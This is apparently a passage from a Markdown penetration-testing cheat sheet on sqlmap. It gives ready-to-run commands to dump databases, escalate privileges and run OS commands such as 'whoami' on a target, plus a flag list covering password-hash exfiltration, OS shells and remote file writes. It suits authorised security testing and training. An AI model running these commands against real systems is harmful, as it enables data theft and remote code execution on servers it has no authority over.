 ```bash
sqlmap -r ./req.txt --level=1 --risk=3 --privesc
Run the “whoami” command on the target server.
sqlmap -r ./req.txt --level=1 --risk=3 --os-cmd=whoami
```

Dump everything in the database, but wait one second in-between requests.

```bash
sqlmap -r ./req.txt --level=1 --risk=3 --dump --delay=1
```

## Post-Exploit

* Error-Based SQLi, dump all data from a MSSQL Database :

```bash
sqlmap -r req --technique=E -U <user> --level 5 --risk 3 --tamper=space2comment --dbms=MSSQL -D <db> --dump
```

## Flags

_Here are some useful options for your pillaging pleasure:_
`-r req.txt` Specify a request stored in a text file, great for saved requests from BurpSuite.
`--force-ssl` Force SQLmap to use SSL or TLS for its requests.
`--level=1` only test against the specified parameter, ignore all others.
`--risk=3` Run all exploit attempts, even the dangerous ones (could damage database).
`--delay` Set a delay in-between requests, great for throttled connections.
`--proxy` Set to http://127.0.0.1:8080 to pipe requests through BurpSuite for inspection.
`--privesc` Attempt to elevate the privileges of the database service account.
`--all` Enumerate everything inside the target database.
`--hostname` Print the target database’s hostname.
`--passwords` Find and exfiltrate all users and their password hashes or digests.
`--dbs` Enumerate all databases accessible via the target webserver.
`--comments` Enumerate all found comments inside the database.
`--sql-shell` Return a SQL prompt for interaction.
`--os-cmd` Attempt to execute a system command.
`--os-shell` Attempt to return a command prompt or terminal for interaction.
`--reg-read` Read the specified Windows registry key value.
`--file-write` Specify a local file to be written to the target server.
`--file-dest` Specify the remote destination to write a file to.
`--technique=` Specify a letter or letters of BEUSTQ to control the exploit attempts:
* `B` : Boolean-based blind
* `E` : Error-based
* `U` : Union query-based
* `S` : Stacked queries
* `T` : Time-based blind
* `Q` : Inline queries

# Enumerate the database
## UNION-BASED
>If we have a UNION-BASED SQLi, then this could be easy. Here a few payloads to gather information about a target, without using sqlmap (too noisy).
>The SELECT statement with 'NULL' could be different! Depends on how many columns we have on the request.
